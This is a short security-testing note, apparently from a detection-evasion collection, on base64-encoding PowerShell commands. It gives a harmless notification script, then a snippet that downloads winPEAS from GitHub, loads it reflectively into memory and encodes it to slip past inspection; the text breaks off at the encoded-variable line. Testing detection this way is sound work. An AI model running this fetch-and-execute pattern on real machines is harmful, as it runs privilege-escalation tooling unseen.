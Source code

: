 # Base-64 Encoded Powershell commands

Danger Status: Medium
Issue Exists?: Yes
Not Malware Scope?: No
Tested?: Yes

$MyScript = @'
$Title = "Hey buddy"
$Message = "I am a notification running in an encoded command"
$Type = "info"

[reflection.assembly]::loadwithpartialname("System.Windows.Forms") | out-null
$path = Get-Process -id $pid | Select-Object -ExpandProperty Path
$icon = [System.Drawing.Icon]::ExtractAssociatedIcon($path)
$notify = new-object system.windows.forms.notifyicon
$notify.icon = $icon
$notify.visible = $true
$notify.showballoontip(10,$Title,$Message, [system.windows.forms.tooltipicon]::$Type)
'@

$MyScript = @'
$url = "[https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe](https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe)"
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
pause
'@
[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($MyScript))

$MyEncodedScript =
